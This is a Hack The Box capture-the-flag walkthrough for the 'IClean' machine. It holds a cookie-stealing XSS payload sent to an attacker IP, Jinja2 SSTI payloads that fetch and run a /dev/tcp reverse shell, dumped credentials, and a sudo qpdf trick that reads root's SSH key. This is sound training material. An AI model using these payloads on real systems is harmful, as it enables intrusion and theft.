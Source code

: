 # [IClean](https://app.hackthebox.com/machines/iclean)

```bash
nmap -p-  --min-rate 10000 10.10.11.12 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.


```bash
nmap -A -sC -sV -p22,80 10.10.11.12 -Pn
```

![alt text](img/image-1.png)


While I open application, it redirects into `capiclean.htb` domain, that's why I need to add this domain into `/etc/hosts` file for resolving 


I found `/quote` endpoint where, I can submit user payloads to `service` body parameter cannot be seen from front page.

![alt text](img/image-2.png)

Let's add `XSS` payloads into here to be triggered.
```bash
<img src=x onerror=alert(1);>
```

![alt text](img/image-3.png)

It means `service` parameter is not filtered from untrusted user input.

Let's add `blind XSS` payload to steal user's cookies.

```bash
<img src=x onerror=fetch("http://10.10.14.12:8080/"+document.cookie);>
```

![alt text](img/image-5.png)

**Note:** Payload should be `URL` encoded.


We can see cookie in our http server's logs.
```bash
python3 -m http.server --bind 10.10.14.12 8080
```

![alt text](img/image-4.png)


Now, I can get this cookie and change on my browser's `Inspector` section. 

Then, I can browse `/dashboard` endpoint which opens `Admin Dashboard` as below.

![alt text](img/image-6.png)



Now, I have `/QRGenerator` endpoint, let's fuzz here with `SSTI` (Server-Side Template Injection) payloads.


**Note:** It should be also `URL` encoded.

I get payload from [here](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/?source=post_page-----cfc46f351353--------------------------------).


```bash
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("id")|attr("read")()}}
```


![alt text](img/image-7.png)



Let's change payload section with `reverse shell` payload, which I will open http.server and put reverse shell script into here to be executed by target machine.


First, I need to write below reverse shell script.
```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.12/1337 0>&1"
```


Then, I need to open http.server.
```bash
python3 -m http.server --bind 10.10.14.12 8080
```

![alt text](img/image-9.png)


```bash
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl http://10.10.14.12:8080/dr4ks | bash")|attr("read")()}}
```

![alt text](img/image-8.png)



Hola, I got reverse shell from port `1337`.

![alt text](img/image-10.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-11.png)


I read `app.py` file and finds credentials of `mysql`.

![alt text](img/image-12.png)


iclean: pxCsmnGLckUb


Let's access to `mysql` database.
```bash
mysql -h localhost -u iclean -p
```

![alt text](img/image-13.png)


I copy password of `consuela` and paste into [Crackstation](https://crackstation.net)

![alt text](img/image-14.png)


consuela: simple and clean

These credentials works for me.

![alt text](img/image-15.png)

user.txt

![alt text](img/image-16.png)


For `privilege escalation`, I just run `sudo -l` to check privileges of this user.

![alt text](img/image-17.png)


I find [this](https://qpdf.readthedocs.io/en/stable/cli.html?source=post_page-----cfc46f351353--------------------------------) and prepare such an payload.

```bash
sudo /usr/bin/qpdf --empty /tmp/rsa.txt --qdf --add-attachment /root/.ssh/id_rsa --
```

![alt text](img/image-18.png)


While reading `/tmp/rsa.txt`, I can see `id_rsa` of root user.

![alt text](img/image-19.png)


Let's copy this and use.

```bash
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.12
```

![alt text](img/image-20.png)


root.txt

![alt text](img/image-21.png)